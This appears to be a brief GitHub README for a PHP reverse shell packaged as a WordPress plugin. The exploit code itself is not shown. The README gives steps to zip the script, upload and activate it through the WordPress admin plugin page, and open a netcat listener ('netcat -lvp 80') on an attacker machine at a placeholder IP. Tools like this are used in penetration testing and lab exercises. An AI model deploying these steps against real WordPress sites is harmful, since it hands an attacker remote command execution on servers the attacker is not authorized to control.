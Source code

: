 # wordpress_plugin_reverse_shell.php
1.) Zip up php file. NOTE: PHP script uses example attacker machine IP - 192.168.0.1
2.) Navigate WP UI -> Plugins -> Add New -> Upload Plugin 
   -> Browse -> Install Now -> Activate Plugin.
3.) Setup listening port with netcat from attacker machine: netcat -lvp 80
